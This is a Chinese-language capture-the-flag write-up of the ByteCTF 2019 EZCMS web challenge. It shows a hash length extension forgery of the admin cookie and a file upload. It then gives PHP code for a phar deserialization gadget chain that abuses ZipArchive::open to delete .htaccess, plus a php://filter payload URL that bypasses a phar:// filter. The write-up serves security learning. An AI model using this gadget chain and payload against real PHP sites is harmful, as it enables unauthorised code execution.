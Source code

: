 ### EZCMS
地址：[buuctf/EZCMS](https://buuoj.cn/challenges#[ByteCTF%202019]EZCMS)
扫目录有www.zip源码泄露，打开之后大概看一下。
```php
function is_admin(){
    $secret = "********";
    $username = $_SESSION['username'];
    $password = $_SESSION['password'];
    if ($username == "admin" && $password != "admin"){
        if ($_COOKIE['user'] === md5($secret.$username.$password)){
            return 1;
        }
    }
    return 0;
}
```
标准的哈希扩展攻击，hashpump跑一下，用admin/123456登录，改cookie，获得上传权限。
{% asset_img hashexpand.png %}
试了试上传好像没过滤，传个php成功了，啥套路。不过马上发现传上去的文件都不能直接访问，会500，只能通过view.php查看。默认目录下有个.htaccess文件，这个500其实就是它造成的。
再看看源码，给了源码又没啥注入点，估计是反序列化的套路，找找看发现有个File对象，属性都是public，很像。
观察这个类，发现可控的文件路径传进了mime_content_type中，前两天suctf的wrietup中提到这个函数也可以触发phar反序列化，所以这里形成了漏洞：
```php
    public function view_detail(){

        if (preg_match('/^(phar|compress|compose.zlib|zip|rar|file|ftp|zlib|data|glob|ssh|expect)/i', $this->filepath)){
            die("nonono~");
        }
        $mine = mime_content_type($this->filepath);
        $store_path = $this->open($this->filename, $this->filepath);
        $res['mine'] = $mine;
        $res['store_path'] = $store_path;
        return $res;

    }
```
再找找能利用的魔法方法，发现Profile类里面有个__call:
```php
    function __call($name, $arguments)
    {
        $this->admin->open($this->username, $this->password);
    }
```
这里有个open方法，套路就是找其他有open方法的自带类，跑一下：
```php
<?php
  foreach (get_declared_classes() as $class) {
    foreach (get_class_methods($class) as $method) {
      if ($method == "open")
        echo "$class->$method\n";
    }
  }
?>
```
有四个分别是SessionHandler、ZipArchive、XMLReader、SQLite3。其中ZipArchive->open()方法的ZipArchive::OVERWRITE选项可以用来删除文件，正好可以用来解决.htaccess，就可以正常访问上传的php文件了。触发的点是File类中的析构函数调用了checker的upload_file方法，而ZipArchive类中没有这个方法，触发了__call函数，调用了open方法，实现删除文件。
```php
<?php
class File{

    public $filename;
    public $filepath;
    public $checker;

    function __construct($filename, $filepath)
    {
        $this->filepath = $filepath;
        $this->filename = $filename;
    }
}
class Profile{

    public $username;
    public $password;
    public $admin;
}
$a = new File();
$a->checker = new Profile();
$a->checker->username = "/var/www/html/sandbox/84aa202da71a9c0f4214025ba4583481/.htaccess";
$a->checker->password = ZipArchive::OVERWRITE | ZipArchive::CREATE;
$a->checker->admin = new ZipArchive();
$phar = new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering();
?>
```
然后是调用phar的方法，这里限制了路径开头不能有phar，还是suctf的writeup提到可以用伪协议绕过。这样payload就是
112.126.102.158:9999/view.php?filename=2fa0baf1c751e2e9645ea67da0792644.phar&filepath=php://filter/read=convert.base64-encode/resource=phar://./sandbox/84aa202da71a9c0f4214025ba4583481/2fa0baf1c751e2e9645ea67da0792644.phar
触发后直接访问上传的php文件就行了，不要再访问upload.php否则会又生成.htaccess

其实后半部分基本是这道题https://corb3nik.github.io/blog/insomnihack-teaser-2018/file-vault

#参考链接
https://altman.vip/2019/09/09/ByteCTF-WEB/
https://blog.zeddyu.info/2019/08/24/SUCTF-2019/
https://skysec.top/2018/03/15/Some%20trick%20in%20ssrf%20and%20unserialize()/
https://www.fuzzer.xyz/2019/04/29/